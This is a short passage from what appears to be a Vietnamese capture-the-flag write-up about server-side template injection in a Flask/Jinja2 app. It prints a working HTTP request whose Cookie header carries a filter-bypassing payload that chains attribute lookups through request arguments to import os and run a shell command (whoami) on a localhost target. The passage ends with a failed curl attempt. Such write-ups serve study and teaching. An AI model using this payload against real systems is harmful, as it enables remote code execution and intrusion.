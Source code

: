 ![image-20230524105847071](./assets/image-20230524105847071.png)

Và sau một hồi mò mẫm thì mình hoàn thành được payload để RCE

```http
GET /?service=adminpage&a=__class__&b=from_envvar&c=__globals__&d=__builtins__&e=__getitem__&f=__import__&cmd=whoami HTTP/1.1
Host: localhost:5005
Cookie: user={% set os = config|attr(request.args.a)|attr(request.args.b)|attr(request.args.c)|attr(request.args.e)(request.args.d)|attr(request.args.e)(request.args.f)("os") %} {{os.popen(request.args.cmd).read()}}


```

![image-20230524110400907](./assets/image-20230524110400907.png)

Đến đây mình thử sử dụng curl lên trang exploit của mình trước nhưng mà không được
